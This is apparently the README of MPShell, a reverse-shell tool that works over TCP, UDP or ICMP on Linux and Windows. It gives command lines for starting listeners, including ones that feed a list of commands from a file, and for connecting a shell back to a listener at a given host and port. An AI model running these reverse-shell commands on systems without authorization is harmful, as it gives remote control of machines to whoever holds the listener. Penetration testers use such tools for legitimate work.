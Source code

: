 # MPShell
Multi-protocol (TCP, UDP, ICMP) multi-OS reverse shell

- supports TCP, UDP & ICMP protocols
- works on Linux & Windows
- supports command input from a file and result output to a file

![Screenshot](https://raw.github.com/wiki/FilipBlazekovic/MPShell/Images/tcp_server.png)

![Screenshot](https://raw.github.com/wiki/FilipBlazekovic/MPShell/Images/icmp_server_files.png)


&nbsp;

**Starting a TCP listener**

```./MPListener --protocol=tcp --port=8080```

To start a TCP listener that accepts a list of commands that will be executed when the client connects from a file (one command per line) and writes the result to a file, `-command-file` & `--result-file` options are used. After all the commands have been executed, input falls back to stdin. Output can then also be redirected to stdout by using `$close-output` command.

```./MPListener --protocol=tcp --port=8080 --command-file=/path/commands.txt --result-file=/path/result.txt```

&nbsp;

**Starting a UDP listener**

```
./MPListener --protocol=udp --port=8080
./MPListener --protocol=udp --port=8080 --command-file=/path/commands.txt --result-file=/path/result.txt
```

&nbsp;

**Starting a ICMP listener**

To start a ICMP listener, root is required, given that raw sockets are used, and automatic ICMP kernel replies need to be disabled. Root is only required on the server side for ICMP protocol. On the client side non-raw ICMP sockets are used `socket(AF_INET, SOCK_DGRAM, IPPROTO_ICMP)` if the user is allowed to used them based on the contents of `/proc/sys/net/ipv4/ping_group_range` file.

```
./MPListener --protocol=icmp
./MPListener --protocol=icmp --command-file=/path/commands.txt --result-file=/path/result.txt
```

&nbsp;

**Starting a reverse shell**

```
./MPShell --protocol=tcp --host=192.168.0.15 --port=8080
./MPShell --protocol=udp --host=192.168.0.15 --port=8080
./MPShell --protocol=icmp --host=192.168.0.15
```

&nbsp;

**Setting additional options for a reverse shell**

The following line set's the read timeout to 1 second, sleep between packets (when there is no payload to send) to 500 ms, and the payload size to 1000 bytes.

```./MPShell --protocol=udp --host=192.168.0.15 --port=8080 --timeout=2 --sleep=500 --payload-size=1000```
